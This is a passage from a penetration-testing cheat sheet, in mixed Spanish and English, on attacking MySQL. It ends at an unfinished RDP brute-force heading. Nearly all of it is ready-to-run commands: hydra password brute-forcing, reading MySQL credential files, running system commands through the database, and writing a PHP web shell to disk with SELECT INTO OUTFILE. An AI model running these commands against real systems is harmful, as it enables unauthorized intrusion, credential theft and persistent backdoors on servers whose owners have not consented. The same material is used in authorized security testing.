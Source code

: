 #### Fuerza bruta

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

#### Extracting MySQL credentials from files

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

#### Conectarte

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

#### MySQL comandos

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

#### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```

---

### RDP -> 3389

#### Fuerza bruta
